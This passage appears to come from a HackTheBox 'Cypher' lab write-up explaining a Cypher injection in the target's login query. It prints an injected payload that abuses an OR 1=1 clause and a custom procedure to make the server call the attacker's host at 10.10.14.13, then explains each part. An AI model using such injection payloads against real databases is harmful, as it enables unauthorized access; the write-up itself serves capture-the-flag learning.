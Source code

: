 ![d30659162426a60cc329526ffa87f434.png](/images/HackTheBox/HTB-Cypher/d30659162426a60cc329526ffa87f434.png)

The application's logic resides in app.py, and the full Cypher query is revealed in error messages. For those unfamiliar with Cypher injection, here is a practical guide: [article](https://hackmd.io/@Chivato/rkAN7Q9NY) about the cypher injection.

**Full Query:** MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'test'{PAYLOAD} //' return h.value as hash"

### Building injection query


**Injected Query:** "test' OR 1=1 WITH 1 AS x CALL custom.getUrlStatusCode(\"http://10.10.14.13:8000/helloWorld\") YIELD statusCode AS y RETURN y as hash //" ^trigger-custom-procedure-call

Let's break down the query:

' OR 1=1 WITH 1 AS x: This segment uses a simple logical operation as a filler and then assigns the value 1 to the variable x using a WITH clause.

CALL custom.getUrlStatusCode(\"http://10.10.14.13:8000/helloWorld\") YIELD statusCode: This invokes the custom.getUrlStatusCode procedure, which was discovered during the JAR file analysis. The query specifies YIELD statusCode, indicating that the output variable for the status code is named statusCode.

AS y RETURN y AS hash: In this final part, the value yielded as statusCode is assigned to y, and then y is returned as hash.
